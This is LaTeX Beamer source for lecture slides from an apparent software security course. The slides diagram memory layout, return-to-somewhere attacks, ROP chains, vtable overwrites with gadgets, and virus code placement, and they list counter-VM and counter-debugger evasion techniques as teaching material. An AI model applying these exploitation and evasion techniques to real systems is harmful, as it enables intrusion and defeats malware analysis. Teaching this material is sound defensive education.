    mylabel/.style={font=\ttfamily,align=center,append after command={([xshift=.1cm]\tikzlastnode.west) edge[ultra thick] ++(-.2cm,0cm)}},
    mybox/.style={draw,rectangle,minimum width=7cm,fill=white},
    myhigh/.style={draw,rectangle,line width=1mm, draw=blue!80!black,opacity=.3},
}
\node[mybox,minimum height=.5cm,inner ysep=0mm,pattern=north west lines,pattern color=black!50!white] (kernel) {Used by OS};
\begin{pgfonlayer}{bg}
    \node[right=1mm of kernel.north east,mylabel] (topLabel) {0xFFFF FFFF FFFF FFFF};
    \node[right=1mm of kernel.south east,mylabel] {0xFFFF 8000 0000 0000};
\end{pgfonlayer}
\node[mybox, minimum height=.5cm, below=.45cm of kernel] (stack) {Stack};
\begin{pgfonlayer}{bg}
    \node[right=1mm of stack.north east,mylabel] {\myemph<1>{$\pm$ 0x004 0000 0000}};
\end{pgfonlayer}
\node[mybox, minimum height=.5cm, below=0.5cm of stack] (heapB) {Dynamic/Libraries (mmap)};
\begin{pgfonlayer}{bg}
    \node[right=1mm of heapB.north east,mylabel] (heapBLabel) {\myemph<1>{$\pm$ 0x100 0000 0000}};
    \node[below=0mm of heapBLabel,font=\small,inner sep=0mm] {(filled from top with ASLR)};
\end{pgfonlayer}
%\begin{pgfonlayer}{bg}
%    \node[right=1mm of heapB.south east,mylabel] (heapBLabel) {0x0000 2baa aaaa b000 \\ $\pm$ 0x100 0000 0000\*};
%\end{pgfonlayer}
\node[mybox, minimum height=.5cm, below=0.5cm of heapB] (heap) {Heap (brk/sbrk)};
\begin{pgfonlayer}{bg}
\node[right=1mm of heap.south east,mylabel] (heapBLabel) {\myemph<1>{$\pm$ 0x200 0000}};
\end{pgfonlayer}
\node[mybox, minimum height=.5cm, below=0.2mm of heap] (data) {Writable data};
\begin{pgfonlayer}{bg}
\node[right=1mm of data.south east,mylabel] (bottomLabel) {\myemph<2-3>{0x0000 0000 0060 0000}*};
\node[below=0mm of bottomLabel,font=\small,inner sep=0mm] {(constants + 2MB alignment)};
\end{pgfonlayer}
\node[mybox, minimum height=.5cm, below=0.6cm of data] (sdata) {Code + Constants};
\begin{pgfonlayer}{bg}
\node[right=1mm of sdata.south east,mylabel] (sbottomLabel) {\myemph<2-3>{0x0000 0000 0040 0000}};
\end{pgfonlayer}
\coordinate (memBottom) at ($(sdata.south east) + (0mm, -2mm)$);
\begin{pgfonlayer}{bg}
\draw[pattern=north west lines, pattern color=black!40!white] (kernel.north west) rectangle (memBottom);
\end{pgfonlayer}

\begin{visibleenv}<3>
    \begin{scope}[overlay]
    \node[draw=red,ultra thick,fill=white,anchor=center,
          inner sep=.5cm,font=\Large] at (current page.center) {
        why are these addresses fixed?
    }; 
    \end{scope}
\end{visibleenv}

\end{tikzpicture}
\end{frame}

\begin{frame}<2>[label=mappingList]{the mapping (set by OS)}
\begin{tikzpicture}
\tikzset{
    dot/.style={draw=none}
}
\matrix[tight matrix,nodes={minimum height=.525cm,text width=3cm,font=\small\tt},
    row 1/.style={nodes={font=\bfseries\small\normalfont}},
    column 1/.style={nodes={draw=none,text width=6cm}},
    column 2/.style={nodes={text width=1cm}},
    column 3/.style={nodes={text width=1cm}},
    column 4/.style={nodes={alt=<2>{opacity=1.0,red}{opacity=0.0},text width=1cm}},
] {
program address range \& read? \& write? \& exec? \& real address\\
0x0000 --- 0x0FFF \& no \& no \& no \& --- \\
0x1000 --- 0x1FFF \& no \& no \& no \& --- \\
|[dot]| \ldots \\
0x40 0000 --- 0x40 0FFF \& yes \& no \& yes \& 0x... \\
0x40 1000 --- 0x40 1FFF \& yes \& no \& yes \& 0x... \\
0x40 2000 --- 0x40 2FFF \& yes \& no \& yes \& 0x... \\
|[dot]| \ldots \\
0x60 0000 --- 0x60 0FFF \& yes \& yes \& no\& 0x... \\
0x60 1000 --- 0x60 1FFF \& yes \& yes \& no\& 0x... \\
|[dot]| \ldots \\
|[font=\scriptsize]| 0x7FFF FF00 0000 --- 0x7FFF FF00 0FFF \& yes \& yes \& no\& 0x... \\
|[font=\scriptsize]| 0x7FFF FF00 1000 --- 0x7FFF FF00 1FFF \& yes \& yes \& no\& 0x... \\
|[dot]| \ldots \\
};
\end{tikzpicture}
\end{frame}

\begin{frame}{malloc/new guard pages}
\begin{tikzpicture}
    \draw[thick,-Latex] (-0.25,-5) -- (-0.25, -1) node [midway, above, sloped] {increasing addresses};
    \node[anchor=south] at (3, 0) {the heap};
    \draw[stackBox] (0, 0) rectangle (6, -6);
    \draw[onStack,fill=blue!20] (0, -2) rectangle (6, -3.5)
        node[midway,align=center] {\texttt{malloc(6000)} \\ (or \texttt{new char[6000]}) };
    \draw[onStack,pattern=north west lines,pattern color=red] (0, -1) rectangle (6, -2)
        node[midway,fill=white] {guard page};
    \draw[onStack,pattern=north west lines,pattern color=red] (0, -4) rectangle (6, -5)
        node[midway,fill=white] {guard page};
    \draw[onStack,fill=black!20] (0, -3.5) rectangle (6, -4)
        node[midway] {unused space};
\end{tikzpicture}
\end{frame}

\begin{frame}[fragile,label=returnToSomewhere]{return-to-somewhere}
\begin{tikzpicture}
% FIXME:
\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
}
\begin{scope}[xscale=0.75]
\draw[stackBox] (0, 0) rectangle (10, -6);
\draw[thick,-Latex] (10.25,-5) -- (10.25, -1) node [midway, below, sloped] {increasing addresses};
\node[at={(5, 0.1)},anchor=south] { highest address (stack started here)};
\node[at={(5, -6.1)},anchor=north] { lowest address (stack grows here)};

\draw[onStack] (0, -.25) rectangle (10, -1.25) node[midway,align=center,font=\small] (stackAddr)
     {return address for {\tt vulnerable}: \\ address of {\tt do\_useful\_stuff}};
\draw[onStack,fill=black!20] (0, -1.25) rectangle (10, -2.25) node[midway,align=center,font=\small] {unused space (20 bytes)};
\draw[onStack,fill=blue!20] (0, -2.25) rectangle (10, -5.25) node[midway,align=center,font=\small] {buffer (100 bytes)};

\draw[onStack] (0, -5.25) rectangle (10, -6) node[midway,align=center,font=\small] {return address for {\tt scanf}};

\draw[onStack,fill=red!20,opacity=0.9] (0, -5.25) rectangle (10, -1.25) node[midway,align=center,font=\small,text=red!50!black] {unused junk};

\draw[-Latex,red,ultra thick,dashed] ([yshift=2.5mm]stackAddr.south east) -- ++(.25cm,0cm) |-
    (11, -4.25) node[align=left,right,font=\small] { {\tt do\_useful\_stuff} \\ (already in program) };

\begin{visibleenv}<2>
\fill[white,opacity=0.5, overlay] (-1,-2) rectangle (18, -8);
\end{visibleenv}
\end{scope}
\end{tikzpicture}
\begin{tikzpicture}[overlay,remember picture]
\begin{visibleenv}<2>
\node[fill=white,draw,ultra thick,align=center,anchor=center] at (current page.center) {
    code is \myemph{already in program}??? \\
    how often does this happen??? \\
    \ldots turns out ``\myemph{usually}'' --- more later in semester
};
\end{visibleenv}
\end{tikzpicture}
\end{frame}

\begin{frame}[fragile,label=loadChain]{ROP chain}
\begin{tikzpicture}
% FIXME:
\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
    useLine/.style={very thick,blue,Latex-},
    useLineRet/.style={red,very thick,-Latex,dashed},
    gadgetBox/.style={blue,thick,text=black,draw,align=left,font=\small},
}
\begin{scope}[xscale=0.75]
\draw[stackBox] (0, 3) rectangle (10, -3);
\draw[thick,-Latex] (-.25,-1) -- (-.25, 1) node [midway, above, sloped] {increasing addresses};
\draw[onStack,fill=green!20,opacity=0.9] (0, 3.00) rectangle (10, 1.75) node[midway,align=center,font=\small] (theString)
     {string to print};
\draw[onStack,red] (0, 1.75) rectangle (10, .75) node[midway,align=center,font=\small] (gadgetTwo)
     {pointer to second gadget};
\draw[onStack,fill=green!20] (0, .75) rectangle (10, -.25) node[midway,align=center,font=\small] (putsAddr)
     {address of \texttt{puts} (popped from stack)};
\draw[onStack,red] (0, -.25) rectangle (10, -1.25) node[midway,align=center,font=\small] (stackAddr)
     {return address for {\tt vulnerable}: \\pointer to first gadget};
\draw[onStack,fill=blue!20] (0, -1.25) rectangle (10, -2.25) node[midway,align=center,font=\small] {buffer (100 bytes)};
\draw[onStack,fill=red!20,opacity=0.9] (0, -2.25) rectangle (10, -1.25) node[midway,align=center,font=\small,text=red!50!black] {unused junk};
        \draw[-Latex,red,ultra thick,dashed] (stackAddr.east) -- ++(3cm,0cm) 
        node[right,gadgetBox] (firstGad) { {\tt popq \%rax} \\ {\tt ret} };
        \draw[-Latex,red,ultra thick,dashed] (gadgetTwo.east) -- ++(3cm,0cm)
        node[right,gadgetBox] (secondGad) { {\tt mov \%rsp, \%rdi} \\ {\tt call *\%rax} };
    \begin{visibleenv}<2->
        \node[gadgetBox,dashed,below=1cm of firstGad] (realRet) {
            \texttt{ret} (in vulnerable)
        };
        \draw[useLineRet] ([xshift=1ex]realRet.west) -- ([xshift=-1ex,yshift=2ex]stackAddr.south east);
    \end{visibleenv}
    \begin{visibleenv}<3->
        \draw[useLine] ([yshift=.6em,xshift=1ex]firstGad.west) -- (putsAddr.east);
    \end{visibleenv}
    \begin{visibleenv}<4->
        \draw[useLineRet] ([yshift=-.6em,xshift=1ex]firstGad.west) -- ([xshift=-1ex,yshift=2ex]gadgetTwo.south east);
    \end{visibleenv}
    \begin{visibleenv}<4->
        \draw[useLine] ([yshift=.6em,xshift=1ex]secondGad.west) -- (theString.east);
    \end{visibleenv}
\end{scope}
\end{tikzpicture}
\end{frame}

\begin{frame}[fragile,label=VTblOver]{VTable overwrite with gadget}
\lstset{language=C++,style=small}
    \begin{tikzpicture}
        \node[anchor=north east] (code) at (1.5, 0) {
\begin{lstlisting}
class Bar {
  char buffer[100];
  Foo *foo;
  int x, y;
  ...
};

void Bar::vulnerable() {
  gets(buffer);
  foo->some_method(x, y);
  // (*foo->vtable[K])(foo, x, y)
  // foo == rdi, x == rsi, y == rdx
}
\end{lstlisting}
};
\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
    useLine/.style={very thick,blue,Latex-},
    useLineRet/.style={red,very thick,-Latex,dashed},
    gadgetBox/.style={blue,thick,text=black,draw,align=left,font=\small},
}
        \begin{visibleenv}<1-2>
\draw[thick,-Latex] (-.25,-4) -- (-.25, -1) node [midway, above, sloped] {increasing addresses};
        \end{visibleenv}
    \draw[stackBox] (0, 0) rectangle (3, -5);
        \draw[onStack,fill=green!20] (0, -1.5) rectangle (3, -5) node[midway] {buffer};
        \draw[onStack,fill=yellow!20] (0, -1) rectangle (3, -1.5) node[midway] {foo};
        \draw[onStack,fill=yellow!20] (0, -0) rectangle (3, -1) node[midway] {x, y};

        \draw[stackBox] (4, 0) rectangle (7, -3);
        \draw[onStack](4, -2.5) rectangle (7, -3) node[midway] {vtable ptr};

        \draw[stackBox] (4, -4) rectangle (7, -6);
        \node[midway,anchor=south] at (5.5, -5) {func. ptrs};
        \draw[fill=blue!30] (4, -5) rectangle (7, -5.5) node[midway] { some\_method };

        \draw[-Latex, very thick,blue] (3, -1.25) -- ++ (.5cm, 0) |- (4, -2.9);
        \draw[-Latex, very thick,blue] (7, -2.75) -- ++ (.5cm, 0) |- (7, -5.9);
        \begin{visibleenv}<2->
            \fill[pattern=north west lines,pattern color=red] (0, -0) rectangle (3, -1.5);
            \draw[-Latex, ultra thick, dashed, red] (3, -1.25) -- ++(.5cm, 0) |- (3, -4.9);
            \draw[fill=white,fill opacity=0.9,draw=red,very thick] (0, -5) rectangle (3, -4.5)
                node[midway] {``vtable'' ptr};
        \end{visibleenv}
        \begin{visibleenv}<3->
            \draw[fill=blue!30,fill opacity=0.9,draw=red,very thick] (0, -2.5) rectangle (3, -2)
                node[midway] {\text{gadget} ptr};
            \draw[-Latex, ultra thick, dashed, red] (0, -4.75) -- ++(-.5cm, 0) |- (0, -3);
            \draw[fill=white,fill opacity=0.9,draw=red,very thick] (0, 0) rectangle (3, -1)
                node[midway] { rsi, \textbf{rdx} values };
            \draw[Latex-, thick,red] (3, -5) -- ++(0cm, -.5cm) node[below] {rdi value};
        \end{visibleenv}
        \begin{visibleenv}<4->
            \node[align=left,thick,draw,anchor=north east,fill=white] (gadget) at (-1, -3) {
                gadget: \\ \texttt{push \%rdx; jmp *(\%rdi)}
            };
            \draw[-Latex,ultra thick, dashed, red] (0, -2.25) -| (gadget.north);
            \draw[fill=white,thick,draw=red,text=black]
                (0, -2.5) rectangle (3, -3) node[midway] {\tt\small *(\%rdi)};
        \end{visibleenv}
    \end{tikzpicture}
\end{frame}

\begin{frame}<6>[fragile,label=lkpTble]{allocations and lookup table}
    \begin{tikzpicture}
        \draw[onStack] (0, 0) rectangle (4, -7);
        \draw[allocBox] (0, 0) rectangle (4, -0.4);
        \draw[stackBox] (0, 0) rectangle (4, -0.5);
        \draw[allocBox] (0, -0.5) rectangle (4, -0.8);
        \draw[stackBox] (0, -0.5) rectangle (4, -1.0);
        \draw[allocBox] (0, -1) rectangle (4, -1.9);
        \draw[stackBox] (0, -1) rectangle (4, -2);
        \draw[allocBox] (0, -2) rectangle (4, -2.4);
        \draw[stackBox] (0, -2) rectangle (4, -2.5);
        \draw[allocBox] (0, -2.5) rectangle (4, -2.7);
        \draw[stackBox] (0, -2.5) rectangle (4, -3);
        \draw[stackBox] (0, -3) rectangle (4, -4);
        \draw[allocBox] (0, -4) rectangle (4, -5.2);
        \draw[stackBox] (0, -4) rectangle (4, -6);

        \begin{visibleenv}<1->
            \node[anchor=north west,align=left] at (9, 0) {
                object allocated in \\ \myemph<1>{power-of-two `slots'}
            };
        \end{visibleenv}
        \begin{visibleenv}<2->
            \matrix[tight matrix,
                nodes={text width=1cm,font=\small\tt},anchor=north west,label={north:table}] (tbl) at (7, -1) {
                $2^4$ \\ $2^4$  \\ $2^5$ \\ $2^5$ \\ $2^4$ \\ $2^4$ \\
                $0$ \\ $0$ \\
                $2^6$ \\ $2^6$ \\ $2^6$ \\ $2^6$ \\
            };
            \begin{scope}[thick,dotted,-Latex]
            \draw (4, -.25) -- (tbl-1-1.west);
            \draw (4, -.75) -- (tbl-2-1.west);
            \draw (4, -1.25) -- (tbl-3-1.west);
            \draw (4, -1.75) -- (tbl-4-1.west);
            \draw (4, -2.25) -- (tbl-5-1.west);
            \draw (4, -2.75) -- (tbl-6-1.west);
            \draw (4, -3.25) -- (tbl-7-1.west);
            \draw (4, -3.75) -- (tbl-8-1.west);
            \draw (4, -4.25) -- (tbl-9-1.west);
            \end{scope}
        \end{visibleenv}
        \begin{visibleenv}<3>
            \draw[ultra thick,red] (0, -1) rectangle (4, -2);
            \node[draw,ultra thick,red,inner sep=0mm,fit=(tbl-3-1) (tbl-4-1)] {};
            \draw[ultra thick,blue] (0, -4) rectangle (4, -6);
            \node[draw,ultra thick,blue,inner sep=0mm,fit=(tbl-9-1) (tbl-12-1)] {};
        \end{visibleenv}
        \begin{visibleenv}<3->
            \node[anchor=north west,align=left] at (9, -2) {
                table stores sizes \\
                \myemph{for each 16 bytes}
            };
        \end{visibleenv}
        \begin{visibleenv}<4>
            \draw[ultra thick,red] (0, -3) rectangle (4, -4);
            \node[draw,ultra thick,red,inner sep=0mm,fit=(tbl-7-1) (tbl-8-1)] {};
        \end{visibleenv}
        \begin{visibleenv}<4->
            \node[anchor=north west,align=left] at (9, -3.5) {
                addresses \textbf<4>{multiples of size} \\
                (may \myemph{require padding})
            };
        \end{visibleenv}
        \begin{pgfonlayer}{bg}
        \begin{visibleenv}<5>
            \fill[red!30] (0, -5.2) rectangle (4, -6.);
            \fill[red!30] (0, -2.7) rectangle (4, -3.);
            \fill[red!30] (0, -1.9) rectangle (4, -2.);
            \fill[red!30] (0, -2.4) rectangle (4, -2.5);
            \fill[red!30] (0, -0.8) rectangle (4, -1.);
            \fill[red!30] (0, -0.4) rectangle (4, -0.5);
        \end{visibleenv}
        \end{pgfonlayer}
        \begin{visibleenv}<5->
            \node[anchor=north west,align=left] at (9, -5.5) {
                sizes are \textbf<5>{powers of two} \\
                (may \myemph{require padding})
            };
        \end{visibleenv}
    \end{tikzpicture}
\end{frame}

\begin{frame}{Exam 1 Stuff}
\end{frame}


\begin{frame}{virtual machines}
    \begin{itemize}
    \item illusion of dedicated machine
    \item possibly different interface:
        \begin{itemize}
        \item system VM --- interface looks like some physical machine
        \item system VM --- OS runs inside VM
        \item process VM --- what OS implements
        \item process VM --- files instead of hard drives, threads instead of CPUs, etc.
        \item language VM --- interface designed for particular programming language
        \item language VM --- e.g. Java VM --- knows about objects, methods, etc.
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{virtual machine implementation techniques}
    \begin{itemize}
    \item emulation:    
        \begin{itemize}
        \item read instruction + giant if/else if/\ldots
        \end{itemize}
    \item binary translation
        \begin{itemize}
        \item compile machine code to new machine code
        \end{itemize}
    \item ``native''
        \begin{itemize}
        \item run natively on hardware in user mode
        \item hardware triggers ``exceptions'' on special interrupts
        \item exceptions give VM implementation control
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{VM implementation strategies}
    \begin{tikzpicture}
    \begin{scope}[yscale=0.75,xscale=1.5]
    \node[anchor=center] at (3, .5) {\bfseries traditional VM};
    \draw[thick] (0, 0) -- (6, 0) -- (6, -1) -- (3, -1) -- (3, -2)  -- (1, -2) -- (1, -3) -- (0, -3) -- cycle;
    \node[anchor=center] at (3, -.5) {virtual machine/guest OS};
    \draw[thick] (6, -3) -- (6, -1) --  (3, -1) -- (3, -2) --  (5, -2) -- (5, -3) -- cycle;
    \node[anchor=center] at (4.5, -1.5) {VM monitor};
    \draw[thick] (1, -2) -- (1, -3) -- (5, -3) -- (5, -2) -- cycle;
    \node[anchor=center] at (3, -2.5) {host OS};
    \draw[thick] (0, -3) -- (0, -4) -- (6, -4) -- (6, -3) -- cycle;
    \node[anchor=center] at (3, -3.5) {native CPU};
    \begin{visibleenv}<2->
        \draw[very thick, orange] (3, -1) -- (6, -1) node[right,orange,align=center] {privileged ops \\ become callbacks \\ (help from HW+OS)};
        %\draw[very thick, red] (5, -2) -- (1, -2) node[left,red,align=center] {system\\ calls};
        \draw[very thick, blue] (0, -3) -- (6, -3) node[right,blue] {native instruction set};
    \end{visibleenv}
        \coordinate (sameNativeLine) at (3, -3);
        \begin{pgfonlayer}{fg}
        \begin{visibleenv}<3>
        \node[mycallout2=sameNativeLine,anchor=north,align=left] at (3, -4) {
            virtual ISA same as real ISA \\
            (except for privileged operations)
        };
        \end{visibleenv}
        \end{pgfonlayer}
    \end{scope}
    \begin{scope}[yshift=-3.7cm,xscale=1.5,yscale=0.75]
    \node[anchor=center] at (3, .5) {\bfseries emulator};
    \draw[thick] (0, 0) -- (6, 0) -- (6, -1) -- (0, -1) -- cycle;
    \node[anchor=center] at (3, -.5) {virtual machine/guest OS};
    \draw[thick] (6, -1) -- (0, -1) -- (0, -2)  -- (5, -2) -- (5, -3) -- (6, -3) -- cycle;
    \node[anchor=center] at (3, -1.5) {emulator};
    \draw[thick] (0, -2) -- (0, -3) -- (5, -3) -- (5, -2) -- cycle;
    \node[anchor=center] at (3, -2.5) {host OS};
    \draw[thick] (0, -3) -- (0, -4) -- (6, -4) -- (6, -3) -- cycle;
    \node[anchor=center] at (3, -3.5) {native CPU};
    \begin{visibleenv}<2->
        \draw[very thick, red] (0, -1) -- (6, -1) node[right,red,align=center] {interpret/translate};
        \draw[very thick, blue] (0, -3) -- (6, -3) node[right,blue] {native instruction set};
    \end{visibleenv}
    \begin{visibleenv}<4>
        \coordinate (diffNativeLine) at (3, -1);
        \node[mycallout2=diffNativeLine,anchor=south,align=left] at (4, 0) {
            virtual ISA could be different from real ISA \\
            (even excluding privileged operations)
        };
    \end{visibleenv}
    \end{scope}
    \end{tikzpicture}
\end{frame}

\begin{frame}{system call flow}
\begin{tikzpicture}
\tikzset{
    userProg/.style={fill=green!20!white},
    innerOS/.style={fill=blue!20!white},
    outerOS/.style={fill=yellow!20!white},
}
\matrix[tight matrix,nodes={align=center,text width=9cm,minimum height=1.7cm,execute at begin node=\strut},
    label={[inner sep=1mm]north:conceptual layering}] (layering) {
    |[userProg]| {program \\ ~} \\
    |[innerOS]| {`guest' OS \\ ~} \\
    |[outerOS]| {virtual machine monitor \\ ~} \\
    hardware \\
};
\begin{visibleenv}<3>
    \node[draw,line width=1mm,blue,fit=(layering-1-1) (layering-2-1),inner sep=-.25mm,
        label={[align=left,blue!80!black]right:user\\mode}] {}; 
    \node[draw,line width=1mm,red,fit=(layering-3-1),inner sep=-.25mm,
        label={[align=left,red!80!black]right:kernel\\mode}] {}; 
\end{visibleenv}
\begin{visibleenv}<2,6>
    \node[draw,line width=1mm,cyan,fit=(layering-1-1),inner sep=-.25mm,
        label={[align=left,cyan!80!black]right:pretend\\user\\mode}] {}; 
    \node[draw,line width=1mm,magenta,fit=(layering-2-1),inner sep=-.25mm,
        label={[align=left,magenta!80!black]right:pretend\\kernel\\mode}] {}; 
\end{visibleenv}
\begin{visibleenv}<4->
\begin{scope}
    \tikzset{
        >=Latex,
        l/.style={very thick,red!90!black},
        every node/.style={
            inner sep=1mm
        }
    }   
    \draw[l,->] ([xshift=-8cm,yshift=.1cm]layering-1-1.south east) -- ([xshift=-7.5cm,yshift=-.4cm]layering-4-1.north east)
        node[above,at start,align=center,xshift=3mm] {system call\\(exception)};
    \draw[l,->] ([xshift=-7cm,yshift=-.4cm]layering-4-1.north east) -- ([xshift=-6.6cm,yshift=.1cm]layering-3-1.south east)
        node[above,xshift=.5cm] { \textbf<5>{run handler} };
    \draw[l,->] ([xshift=-5cm,yshift=.1cm]layering-3-1.south east) -- ([xshift=-4.5cm,yshift=-.2cm]layering-4-1.north east)
        -- ([xshift=-4cm,yshift=.1cm]layering-3-1.south east)
        node[below,midway,align=left] { \textbf<6>{update memory map} };
    \draw[l,->] ([xshift=-2cm,yshift=.1cm]layering-3-1.south east) -- ([xshift=-1.5cm,yshift=-.2cm]layering-4-1.north east)
        node[at start,above left,xshift=.5cm,align=left] {to user mode}
        -- ([xshift=-.8cm,yshift=.1cm]layering-2-1.south east)
        node[at end,above,xshift=-.5cm] { \textbf<5>{run handler} };
\end{scope}
\end{visibleenv}
\end{tikzpicture}
\end{frame}

\begin{frame}{VMs and malware}
    \begin{itemize}
    \item isolate malware from important stuff
    \item sample malware behavior
        \begin{itemize}
        \item inspect memory for patterns --- counter for metamorphic
        \item look for suspicious behavior generally
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{counter-VM techniques}
    \begin{itemize}
    \item detect VM-only devices
    \item outrun patience of antivirus VM
    \item unsupported instructions/system calls
    \item \ldots
    \end{itemize}
\end{frame}

\begin{frame}{debugger support}
    \begin{itemize}
    \item hardware support:
    \vspace{.5cm}
    \item breakpoint instruction --- debugger edits machine code to add
    \item single-step flag --- execute one instruction, jump to OS (debugger)
    \end{itemize}
\end{frame}

\begin{frame}{counter-debugger techniques}
\begin{itemize}
\item debuggers --- also for analysis of malware
\vspace{.5cm}
\item detect changes to machine code in memory
\item directly look for debugger
    \item broken executables
    \item \ldots
    \end{itemize}
\end{frame}
\section{assembly}

\begin{frame}[fragile,label=att1]{AT\&T syntax}
\begin{lstlisting}
movq $42, 100(%rbx,%rcx,4)
\end{lstlisting}
    \begin{itemize}
    \item destination \myemph{last}
    \item constants start with {\tt \$}; no {\tt \$} is an address
    \item registers start with {\tt \%}
    \item operand length ({\tt q} = 8; {\tt l} = 4; {\tt w} = 2; {\tt b} = 1)
    \item {\tt D(R1,R2,S)} = memory at {\tt D + R1 + R2 $\times$ S}
    \end{itemize}
\end{frame}

\begin{frame}{weird x86 features}
    \begin{itemize}
    \item segmentation: old way of dividing memory: {\tt \%fs:0x28} 
        \begin{itemize}
        \item get segment \# from FS register
        \item lookup that entry in a table
        \item add {\tt 0x28} to base adddress in table
        \item access memory as usual
        \end{itemize}
    \item rep prefix
        \begin{itemize}
        \item repeat instruction until rcx is 0
        \item \ldots decrementing rcx each time
        \end{itemize}
    \item string instructions
        \begin{itemize}
        \item memory-to-memory; designed to be used with rep/etc. prefixes
        \end{itemize}
    \end{itemize}
\end{frame}

\section{executable formats}

\begin{frame}[fragile,label=execParts]{executable/object file parts}
    \begin{tikzpicture}
    \tikzset{
        every node/.style={align=center},
    }
    \draw[very thick,fill=violet!20] (0, 0) rectangle (15, -1) 
    node[midway] {
        type of file, entry point address, \ldots
    };
    \draw[very thick] (0, -1) rectangle (15, -3) 
    node[midway] {
        \begin{tabular}{lllll}
        seg\# & file offset & memory loc. & size & permissions \\
        1 & {\tt 0x0123} & {\tt 0x3000} & {\tt 0x1200} & read/exec \\
        2 & {\tt 0x1423} & {\tt 0x5000} & {\tt 0x5000} & read/write \\
        \end{tabular}
    };
    \draw[very thick,fill=blue!20] (0, -3) rectangle (15, -4.5)
    node[midway,font=\large] {
        machine code + data for segments
    };
    \draw[very thick,fill=green!20] (0, -4.5) rectangle (15, -7)
    node[midway] {
        \textbf{symbol table}: {\tt foobar} at {\tt 0x2344}; {\tt barbaz} at {\tt 0x4432}; \ldots \\
        \textbf{relocations}: {\tt printf} at {\tt 0x3333} (type: absolute); \ldots \\
        section table, debug information, etc.
    };
    \end{tikzpicture}
\end{frame}

\begin{frame}{relocations?}
    \begin{itemize}
    \item unknown addresses --- ``holes'' in machine code/etc.
    \item linker lays out machine code
    \item computes all symbol table addresses
    \item uses symbol table addresses to fill in machine code
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=dynamicStubs]{dynamic linking}
    \begin{itemize}
    \item executables not completely linked --- library loaded at runtime
    \item could use same mechanism, but ineffecient
    \item instead: stubs:
    \end{itemize}
\begin{Verbatim}[commandchars=Q\{\},fontsize=\fontsize{8}{9}\selectfont]
0000000000400400 <puts@plt>:
  400400:	ff 25 12 0c 20 00    	jmpq   *0x200c12(%rip) 
                    /* 0x200c12+RIP = _GLOBAL_OFFSET_TABLE_+0x18 */
Qtextit{... later in main: ...}
  40052d:	e8 ce fe ff ff       	callq  400400 <puts@plt>
                        /* instead of call puts */
\end{Verbatim}
\end{frame}

\section{malware definitions}

\begin{frame}{malware}
    \begin{itemize}
    \item \myemph{evil software}
    \vspace{.5cm}
    \item various kinds:
        \begin{itemize}
        \item viruses
        \item worms
        \item trojan (horse)s
        \item potentially unwanted programs/adware
        \item rootkits
        \item logic bombs
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{worms}
    \begin{itemize}
    \item malicious program that copies itself
    \item arranges to be run automatically (e.g. startup program)
    \item may spread to other media (USB keys, etc.)
    \item may spread over the network using vulnerabilities
    \end{itemize}
\end{frame}

\subsection{viruses and virus techniques}

\begin{frame}{viruses}
    \begin{itemize}
    \item malware that embeds itself in innocent programs/files
    \item spreads (primarily) by:
        \begin{itemize}
        \item hoping user shares infected files
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{code placement options}
\begin{tikzpicture}[scale=0.5,transform shape]
    \tikzset{every node/.style={font=\Large}}
    \begin{scope}
    \draw[thick] (0, 0) rectangle (4, -6) node[midway,align=center] {original\\executable};
    \draw[line width=2mm,-Latex,black!60] (4.1, -3) -- (6.9, -.5);
    \begin{scope}[xshift=7cm]
    \draw[thick,fill=red!20] (0, 0) rectangle (4, -1) node[midway,align=center] {virus code};
    \draw[thick,fill=yellow!20] (0, -1) rectangle (4, -1.5) node[midway,align=center,font=\scriptsize] {
        run original from tempfile
    };
    \draw[thick] (0, -1.5) rectangle (4, -7.2) node[midway,align=center] {original\\executable};
    \end{scope}
    \end{scope}

    \begin{scope}[xshift=16cm]
    \draw[thick] (0, 0) rectangle (4, -5) node[midway,align=center] {original\\executable};
    \draw[line width=2mm,-Latex,black!60] (4.1, -3) -- (6.9, -3);
    \begin{scope}[xshift=7cm]
    \draw[thick] (0, 0) rectangle (4, -5) node[midway,align=center] {original\\executable};
    \draw[fill=red!20,thick] (0, -5) rectangle (4, -6)
        node[midway,align=center] {virus code};
    \draw[fill=red!20,thick] (0.5, -1) rectangle (1, -1.5);
    \node[anchor=west,red!50!black] at (1.25, -1.25) {jmp to virus};
    \draw[thick,Latex-] (1, -1.25) -- (1.4, -1.25);
    \end{scope}
    \end{scope}

    \begin{scope}[yshift=-8cm]
    \draw[thick] (0, 0) rectangle (4, -6) node[midway,align=center] {original\\executable};
    \draw[line width=2mm,-Latex,black!60] (4.1, -3) -- (6.9, -3);
    \begin{scope}[xshift=7cm]
    \draw[fill=red!20,thick] (0, 0) rectangle (4, -1) node[midway] {virus code};
    \draw[fill=red!20,thick] (0, -1) rectangle (4, -2) node[midway] {decompressor};
    \draw[pattern=north west lines,pattern color=black!70,thick] (0, -2) rectangle (4, -5)
        node[midway,fill=white,align=center] {compressed \\ executable};
    \draw[fill=black!60,thick] (0, -5) rectangle (4, -6)
        node[midway,white] {unused space};
    \end{scope}
    \end{scope}
   
    \begin{scope}[yshift=-8cm,xshift=16cm] 
    \draw[thick] (0, 0) rectangle (4, -6) node[midway,align=center,yshift=1.5cm] {original\\executable\\ (w/ cavities)};
        \draw[pattern=north west lines] (0, -3) rectangle (4, -3.5);
        \draw[pattern=north west lines] (0, -4) rectangle (4, -4.5);
        \draw[pattern=north west lines] (0, -5) rectangle (4, -5.5);
    \draw[line width=2mm,-Latex,black!60] (4.1, -3) -- (6.9, -3);
    \begin{scope}[xshift=7cm]
        \draw[fill=red!20,thick] (0, 0) rectangle (4, -0.5) node[midway] {startup code};
        \draw[fill=red!20,thick] (0, -0.5) rectangle (4, -1) node[midway] {code locs};
        \draw[thick] (0, -1) rectangle (4, -6);
        \draw[fill=red!20,thick] (0, -3) rectangle (4, -3.5)
            node[midway] {virus part 1};
        \draw[fill=red!20,thick] (0, -4) rectangle (4, -4.5)
            node[midway] {virus part 2};
        \draw[fill=red!20,thick] (0, -5) rectangle (4, -5.5)
            node[midway] {virus part 3};
    \end{scope}
    \end{scope}
\end{tikzpicture}
\end{frame}

\begin{frame}{entry point choices}
